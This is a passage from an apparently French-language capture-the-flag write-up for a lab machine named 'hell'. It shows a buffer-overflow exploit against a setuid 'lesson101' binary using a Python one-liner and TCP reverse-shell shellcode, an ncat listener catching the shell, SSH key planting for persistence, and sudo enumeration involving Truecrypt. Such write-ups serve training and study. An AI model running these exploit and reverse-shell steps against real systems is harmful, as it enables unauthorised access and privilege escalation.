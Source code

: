 Le shellcode utilisé ici est [un reverse shell TCP](http://shell-storm.org/shellcode/files/shellcode-833.php). J'ai d'abord voulu lire un programme en Python pour communiquer avec le programme via `subprocess` mais les histoires de buffering de la console rendent tout ça trop compliqué.  

La solution que j'ai choisi est donc de passer systématiquement le chiffre 10 puis l'adresse de retour avec au début un padding à agrandir au fur et à mesure des échecs (*enlarge your padding !*). Si le chiffre à deviner n'est pas dix il faut juste *Ctrl+C* puis recommencer.  

Finalement j'obtiens mon accès avec un padding de 2 octets.  

Côté victime :  

```console
milk_4_life@hell:~$ python -c "print '10';print 'AA'+'\x77\xff\xfe\xbf'*1000" | /usr/bin/lesson101
Hello milk_4_life - this is a beginning exercise for the course, 'Learning Bad C - 101'

I got it once in !! 3 !! whole guesses, can you do better?

Guess my number!!

Number (1-20): You got it in 1 tries, congratulations!
Holy crap I can't believe you did it in less than me!
I'm going to have to get your name for my wall of fame being put into the next version
Name:
```

Côté attaquant :  

```console
$ ncat -l -p 55555 -v
Ncat: Version 6.01 ( http://nmap.org/ncat )
Ncat: Listening on :::55555
Ncat: Listening on 0.0.0.0:55555
Ncat: Connection from 192.168.1.29.
Ncat: Connection from 192.168.1.29:56901.
id
uid=1002(milk_4_life) gid=1002(milk_4_life) euid=1000(george) groups=1000(george),1002(milk_4_life)
```

Un accès SSH récupéré plus tard (`authorized_keys`) on découvre dans *`bash_history` des références multiples à *Truecrypt*.  

```console
george@hell:~$ sudo -l
Matching Defaults entries for george on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User george may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/truecrypt
```

Notez qu'un conteneur *Truecrypt* existe déjà sur le système, mais les mots de passe connus ne semblent pas fonctionner :  

```console
george@hell:~$ ls -lh container.tc
-rw------- 1 george george 4.0M Jun 19 21:09 container.tc
```
